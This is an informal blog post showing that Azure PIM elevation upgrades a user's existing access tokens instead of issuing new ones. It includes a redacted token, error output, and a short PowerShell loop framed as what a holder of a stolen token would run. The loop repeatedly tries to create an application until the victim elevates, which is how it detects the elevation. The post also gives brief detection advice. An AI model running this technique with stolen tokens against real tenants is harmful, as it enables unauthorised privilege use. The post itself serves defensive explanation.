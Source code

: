 ```yaml
---
layout: post
title: Are you sure you know Azure PIM?
date: '2024-01-26 12:12:09'
---
```


Azure PIM is good, but there is always **_but_**

Everything in Azure based on tokens, when you authenticate with you modern CBA method you will get again token back which will give you access to resources. What is important - administrative access have option to "escalate" tokens for some time to do **real job** and your access expire. But is it really expire? Or just wait until you will _escalate_ again?

It is require ID P2/Governance license .. 

And not working as moste people think .. It DOES NOT create new token, it is juste escalate ALL tokens which is connected to elevated account!

Really good blog from Cody Burkard describe main points:
https://codyburkard.com/blog/jitprivilegeescalation/

But lets test! =)

Get token!

![Access Token and refresh . . jepp refresh always come with it](../images/03/bilde1.png){: .mx-auto.d-block :}

Token info (redacted):

>{
  "aud": "https://management.core.windows.net/",
  "iss": "https://sts.windows.net/",
  "iat": 1706522835,
  "nbf": 1706522835,
  "exp": 1706527683,
  "acr": "1",
  "aio": "A",
  "amr": [
    "pwd",
    "mfa"
  ],
  "appid": "1",
  "appidacr": "0",
  "family_name": "Borodai",
  "given_name": "Artem",
  "groups": [
    "e"
  ],
  "idtyp": "user",
  "ipaddr": "1",
  "name": "Artem Borodai",
  "oid": "c",
  "puid": "1",
  "rh": "0.A",
  **"scp": "user_impersonation",**
  "sub": "6",
  "tid": "4",
  "unique_name": "artem.borodai@blinq",
  "upn": "artem.borodai@blinq",
  "uti": "P",
  "ver": "1.0",
  "wids": [
    "b"
  ],
  "xms_cae": "1",
  "xms_cc": [
    "CP1"
  ],
  "xms_filter_index": [
    "129"
  ],
  "xms_rd": "0.4",
  "xms_ssm": "1",
  "xms_tcdt": 1614601636
>}

Lets play with access =)

![Access denied, try PIM, I am waiting](../images/03/bilde3.png){: .mx-auto.d-block :}

Nope, 403, which is right user not PIMed . . 

And if we steal token, how we will find out if user is pimed??? Just run script =)

>while (1 -eq 1 ){
>$command=try{New-AzADApplication -DisplayName blinQ *>&1}catch{$_} 
$command | Out-File c:\CIS\iwanttoknow.txt -Append
start-sleep -seconds 10
}

Then user PIMed . . 

And jepp - token escalated without any additional moves . . 

>Az.MSGraph.internal\New-AzADApplication : Insufficient privileges to complete the operation.
>At C:\Program Files\WindowsPowerShell\Modules\Az.Resources\6.11.1\MSGraph.Autorest\custom\New-AzADApplication.ps1:698 char:5
>+     $app = Az.MSGraph.internal\New-AzADApplication @PSBoundParameters
>+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>    + CategoryInfo          : InvalidOperation: ({ body = {
  "...reADMyOrg"
} }:<>f__AnonymousType12`1) [New-AzADApplication_CreateExpanded], Exception
    + FullyQualifiedErrorId : Authorization_RequestDenied,Microsoft.Azure.PowerShell.Cmdlets.Resources.MSGraph.Cmdlets.NewAzADApplication_CreateExpanded
Az.MSGraph.internal\New-AzADApplication : Insufficient privileges to complete the operation.
At C:\Program Files\WindowsPowerShell\Modules\Az.Resources\6.11.1\MSGraph.Autorest\custom\New-AzADApplication.ps1:698 char:5
>+     $app = Az.MSGraph.internal\New-AzADApplication @PSBoundParameters
>+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>    + CategoryInfo          : InvalidOperation: ({ body = {
  "...reADMyOrg"
>} }:<>f__AnonymousType12`1) [New-AzADApplication_CreateExpanded], Exception
    + FullyQualifiedErrorId : Authorization_RequestDenied,Microsoft.Azure.PowerShell.Cmdlets.Resources.MSGraph.Cmdlets.NewAzADApplication_CreateExpanded
>
>DisplayName Id                                   AppId                               
>----------- --                                   -----                               
>blinQ   694f2d2f-e5x
>
>
>
>DisplayName Id                                   AppId                               
>----------- --                                   -----                               
>blinQ   a0b7f9c7-e3x

Detection:

Only unusual IP, and of course Admin access should be limited to PAW IP (which I never saw in my life . . )

![Ups I did it again](../images/03/bilde4.png){: .mx-auto.d-block :}

P.S: If it was interesting for you - read carefully Cody blog up there . . 